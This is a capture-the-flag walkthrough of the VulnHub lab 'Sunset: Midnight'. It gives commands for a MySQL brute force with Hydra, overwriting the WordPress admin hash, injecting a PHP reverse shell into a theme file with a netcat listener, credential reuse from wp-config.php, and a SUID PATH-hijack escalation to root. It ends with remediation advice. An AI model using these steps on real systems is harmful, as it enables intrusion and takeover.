





# Sunset: Midnight — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.10.178 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/sunset-midnight-vulnhub-walkthrough/) |

---

## Attack Summary

Sunset: Midnight exposes a WordPress site paired with a directly accessible MySQL service. MySQL credentials are brute-forced with Hydra. Database access is used to overwrite the WordPress admin password hash, granting admin panel access. A PHP reverse shell injected into a theme file provides initial RCE. Credentials recovered from `wp-config.php` allow lateral movement to the user `jose`. A SUID binary (`/usr/bin/status`) calls `service` without an absolute path, enabling a PATH hijack to root.

---

## Methodology

1. Host discovery and full-port nmap scan
2. Hostname added to `/etc/hosts`
3. WordPress site and login panel identified
4. MySQL service brute-forced with Hydra
5. WordPress admin password hash replaced via direct database access
6. Theme file (`header.php`) modified with a PHP reverse shell
7. Reverse shell caught with netcat
8. `wp-config.php` credentials recovered and used to pivot to user `jose`
9. SUID binary PATH hijack escalates to root

---

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover -i eth0
nmap -A -p- 192.168.10.178
```

Add the hostname to the hosts file as the machine's description requires:

```bash
echo "192.168.10.178 sunset-midnight" >> /etc/hosts
```



---

## Step 2: Web Enumeration

Browse to `http://sunset-midnight`. A WordPress site is present. The standard login panel is reachable at `/wp-login.php`.

---

## Step 3: MySQL Brute Force

MySQL is exposed and accepts remote connections. Brute force with Hydra:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt \
  192.168.10.178 mysql
```

Recovered MySQL credentials are used in the next step.



---

## Step 4: Database Password Manipulation

Connect to MySQL and overwrite the WordPress admin password hash with the MD5 of `123456`:

```bash
# MD5 of "123456" = e10adc3949ba59abbe56e057f20f883e
mysql -u root -p<PASSWORD> -h 192.168.10.178

USE wordpress;
SELECT user_login, user_pass FROM wp_users;
UPDATE wp_users SET user_pass='e10adc3949ba59abbe56e057f20f883e'
  WHERE user_login='admin';
EXIT;
```

---

## Step 5: WordPress Admin Access and Reverse Shell Injection

Log into the WordPress admin panel at `http://sunset-midnight/wp-login.php` with `admin:123456`.

Navigate to **Appearance > Theme Editor** and open `header.php`. Replace its content with a PentestMonkey PHP reverse shell configured for the attacker IP and port 4444.

Start the listener on Kali:

```bash
nc -nlvp 4444
```

Browse to `http://sunset-midnight` to trigger the modified `header.php`. A shell arrives as `www-data`.



---

## Step 6: Lateral Movement via wp-config.php

Stabilise the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Read the WordPress configuration file:

```bash
cat /var/www/html/wp-config.php
```

A password is present. Use it to switch to user `jose`:

```bash
su jose
# enter the recovered password
```

---

## Step 7: Privilege Escalation via PATH Hijack

Inspect SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

`/usr/bin/status` is SUID root. Analyse it:

```bash
strings /usr/bin/status
```

It calls `service` by relative name. Hijack PATH:

```bash
echo '/bin/sh' > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/bin/status
```

A root shell spawns.



---

## Step 8: Root Flag

```bash
id
cat /root/root.txt
```



---

## Lessons Learned

- Exposing MySQL directly to the network with a weak or default root password is a critical misconfiguration. Database servers should never be reachable from untrusted interfaces.
- WordPress admin access alone is sufficient for code execution when theme file editing is not disabled.
- Credentials in `wp-config.php` are frequently reused by system users, making them a high-value lateral movement target.
- SUID binaries that invoke external commands by relative path are trivially exploitable through PATH manipulation.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| MySQL exposed with weak root password | Bind MySQL to localhost; use strong unique credentials |
| WordPress admin password replaceable via direct DB access | Restrict MySQL network access; use parameterised credentials |
| Theme file editing enabled in WordPress | Add `define('DISALLOW_FILE_EDIT', true);` to `wp-config.php` |
| Credentials in `wp-config.php` reused for OS accounts | Use dedicated DB service accounts; do not reuse passwords across layers |
| SUID binary calling `service` by relative path | Use absolute paths in all SUID/privileged programs |
